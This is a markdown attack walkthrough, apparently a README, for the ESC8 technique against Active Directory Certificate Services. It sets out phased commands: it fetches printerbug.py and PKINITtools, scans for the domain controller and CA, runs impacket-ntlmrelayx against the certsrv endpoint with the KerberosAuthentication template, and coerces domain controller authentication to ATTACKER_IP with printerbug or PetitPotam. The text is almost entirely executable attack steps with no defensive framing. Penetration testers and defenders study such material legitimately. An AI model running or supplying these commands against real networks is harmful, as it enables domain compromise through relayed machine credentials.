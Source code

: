 
## 🚀 ESC8 Attack Execution

### Phase 1: Environment Setup

#### Required Tools Installation
```bash
# Install dependencies (critical for PFX generation)
sudo apt update
sudo apt install python3-cryptography python3-openssl

# Clone attack tools
wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/refs/heads/master/printerbug.py
git clone https://github.com/dirkjanm/PKINITtools.git
```

#### Network Reconnaissance
```bash
# Identify Domain Controller and Certificate Authority
nmap -p 88,389,636 TARGET_SUBNET
nmap -p 80,443 CA_SERVER

# Verify ADCS HTTP endpoint
curl -k http://CA_SERVER/certsrv/
```

### Phase 2: NTLM Relay Attack Setup

#### Configure ntlmrelayx Listener
```bash
# Target ADCS HTTP endpoint with machine template
sudo impacket-ntlmrelayx -t http://CA_SERVER/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

# Expected startup output:
# [*] Protocol Client HTTP loaded..
# [*] Running in relay mode to single host
# [*] Setting up SMB Server on port 445
# [*] Servers started, waiting for connections
```

### Phase 3: Authentication Coercion

#### Printer Bug Exploitation
```bash
# Force DC machine account authentication
python3 printerbug.py DOMAIN/username:"password"@DC_IP ATTACKER_IP

# Alternative: PetitPotam (if available)
python3 PetitPotam.py ATTACKER_IP DC_IP -u username -p password
```
